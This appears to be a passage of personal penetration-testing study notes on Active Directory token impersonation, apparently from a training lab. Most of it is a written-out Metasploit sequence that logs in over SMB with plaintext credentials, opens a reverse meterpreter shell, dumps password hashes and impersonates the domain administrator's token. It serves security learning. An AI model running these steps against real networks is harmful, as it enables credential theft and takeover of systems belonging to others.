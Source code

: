     * Strong passwords

    * Least privilege (service accounts should not be made domain admins)

* Token impersonation:

  * Tokens - temporary keys that allow access without using creds

  * Types:
    * delegate (login, RDP)
    * impersonate (drive, script).

  ```shell
  msfconsole

  use exploit/windows/smb/psexec

  set RHOSTS 192.168.57.141

  set smbdomain marvel.local

  set smbpass Password1

  set smbuser fcastle

  set target 2
  #native upload

  options

  set payload windows/x64/meterpreter/reverse_tcp

  set lhost eth0

  run
  #gives meterpreter session

  hashdump

  load incognito
  #metasploit module for token impersonation

  list_tokens -u
  #list tokens by user

  impersonate_token marvel\\administrator
  #two backslashes instead of one for character-escaping

  whoami
  #test if it worked

  rev2self
  #revert to old user
  ```

